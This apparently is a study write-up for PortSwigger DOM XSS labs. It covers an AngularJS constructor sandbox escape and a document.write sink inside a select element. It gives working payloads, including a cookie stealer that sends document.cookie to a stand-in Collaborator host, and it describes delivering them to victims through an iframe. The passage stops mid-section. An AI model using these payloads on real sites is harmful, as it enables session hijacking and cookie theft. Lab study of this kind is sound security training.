 ### Vulnerable AngularJS  
  
>AngularJS expression below can be injected into the search function when angle brackets and double quotes HTML-encoded. The vulnerability is ***identified*** by noticing the search string is enclosed in an **ng-app** directive and `/js/angular 1-7-7.js` script included. Review the HTML code to ***identify*** the `ng-app` directive telling AngularJS that this is the root element of the AngularJS application.  

![domxss-on-constructor.png](images/ng-app-code-review.png)  

>PortSwigger lab payload below:

```JavaScript
{{$on.constructor('alert(1)')()}}
```  

>Cookie stealer payload using `on.constructor` that can be placed in iframe, hosted on an exploit server, resulting in the victim session cookie being send to Burp Collaborator.  
>[PortSwigger cheat sheet for cross site scripting reference](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-reflected--1.0.1---1.1.5-(shorter))  

```JavaScript
{{$on.constructor('document.location="https://COLLABORATOR.com?c="+document.cookie')()}}
```  

>**Note:** The session cookie property must not have the **HttpOnly** secure flag set in order for XSS to succeed.  

![domxss-on-constructor.png](images/domxss-on-constructor.png)  

[PortSwigger Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression)  

[z3nsh3ll give an amazingly detail understanding on the constructor vulnerability in this lab on YouTube](https://youtu.be/QpQp2JLn6JA)  

### Doc Write Location search  

>The target is vulnerable to DOM-XSS in the stock check function. `source code` reveal ```document.write``` is the sink used with ```location.search``` allowing us to add **storeId** query parameter with a value containing the JavaScript payload inside a ```<select>``` statement.  

![DOM-XSS doc write inside select](images/dom-xss-doc-write-inside-select.png)  

>Perform a test using below payload to ***identify*** the injection into the modified GET request, using `">` to escape.  

```html
/product?productId=1&storeId=fuzzer"></select>fuzzer
```

![get-dom-xss.png](images/get-dom-xss.png)  

>DOM XSS cookie stealer payload in a `document.write` sink using source `location.search` inside a `<select>` element. This can be send to victim via exploit server in `<iframe>`. To test the cookie stealer payload I again on my browser in console added a test POC cookie to test sending it to Collaborator.  
